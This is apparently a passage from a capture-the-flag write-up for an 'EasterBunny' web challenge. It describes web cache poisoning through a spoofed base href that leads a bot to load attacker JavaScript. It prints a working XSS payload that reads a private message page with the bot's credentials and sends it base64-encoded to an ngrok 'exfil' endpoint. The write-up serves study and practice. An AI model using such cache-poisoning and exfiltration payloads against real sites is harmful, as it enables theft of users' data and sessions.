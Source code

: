 ```
Content-Length: 2135
ETag: W/"857-UZNX9ULB7Ou8CQnYWfnNTpY8xwI"
Date: Tue, 19 Jul 2022 14:36:32 GMT
X-Varnish: 294962 196897
Age: 1
Via: 1.1 varnish (Varnish/6.1)
X-Cache: HIT
X-Cache-Hits: 5
Accept-Ranges: bytes
Connection: close
...
<meta http-equiv="X-UA-Compatible" content="IE=edge" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<base href="http://ed97-2-42-243-225.ngrok.io/:80/static/" />
<link rel="preconnect" href="https://fonts.googleapis.com" />
...
```

Submitted a letter and triggered the bot:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%205.png)

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%206.png)

Poisoned cached page served to the bot and exploited the XSS to force it to write another letter containing the flag:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%207.png)

## Exploitation #2 - OAST

Poisoned the web cache for Host 127.0.0.1 (the same used by the bot) in order to include an arbitrary JavaScript:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%208.png)

Payload injected:

```jsx
var url = "http://127.0.0.1/message/3";
var attacker = "http://5a78-2-42-243-225.ngrok.io/exfil";
var xhr  = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```
